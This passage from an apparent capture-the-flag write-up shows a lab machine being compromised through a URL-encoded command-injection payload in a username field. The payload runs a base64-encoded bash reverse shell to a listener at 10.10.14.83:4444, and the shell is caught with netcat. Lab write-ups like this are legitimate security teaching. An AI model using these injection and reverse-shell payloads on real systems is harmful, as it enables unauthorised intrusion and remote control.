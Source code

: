 We need to encode the payload to base64, and then the whole command in URL format:

```
-[Thu Feb 29-09:07:19]-[table@parrot]-
-[~]$ echo "bash -i >& /dev/tcp/10.10.14.83/4444 0>&1" | base64 -w 0
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC44My80NDQ0IDA+JjEK
```

The base64 payload inserted into our command:

```
;echo${IFS}"YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC44My80NDQ0IDA+JjEK"|base64${IFS}-d|bash;
```

Full command payload, encoded into URL to insert in username:

```
%3Becho%24%7BIFS%7D%22YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC44My80NDQ0IDA%2BJjEK%22%7Cbase64%24%7BIFS%7D-d%7Cbash%3B
```

After sending the payload, and having `netcat` listening on port 4444, we catch a reverse shell!

```
-[Thu Feb 29-09:37:07]-[table@parrot]-
-[~]$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.83] from (UNKNOWN) [10.10.11.230] 54708
bash: cannot set terminal process group (1063): Inappropriate ioctl for device
bash: no job control in this shell
app@cozyhosting:/app$ id
uid=1001(app) gid=1001(app) groups=1001(app)
app@cozyhosting:/app$
```

We find a `.jar` file in `/app`. We cannot view it remotely so I download it onto the remote host to view it:

```
-[Thu Feb 29-09:55:59]-[table@parrot]-
-[~]$ wget 10.10.11.230/app/cloudhosting-0.0.1.jar
--2024-02-29 09:56:43-- http://10.10.11.230/app/cloudhosting-0.0.1.jar
Connecting to 10.10.11.230:80... connected.
HTTP request sent, awaiting response... 301 Moved Permanently
Location: http://cozyhosting.htb [following]
--2024-02-29 09:56:43-- http://cozyhosting.htb/
Resolving cozyhosting.htb (cozyhosting.htb)... 10.10.11.230
Reusing existing connection to 10.10.11.230:80.
HTTP request sent, awaiting response... 200
Length: unspecified [text/html]
Saving to: ‘cloudhosting-0.0.1.jar’
cloudhosting-0.0.1.jar [ <=> ] 12.41K --.-KB/s in 0.08s
2024-02-29 09:56:43 (150 KB/s) - ‘cloudhosting-0.0.1.jar’ saved [12706]
```

Unsure what to do with `.jar`. Taking a hint, I learned I need `jd-gui` to view jar files better. Unfortunately, `jd-gui` is not working, the `.jar` file does not open in this app. When I `cat` the file it shows the HTML for the home page
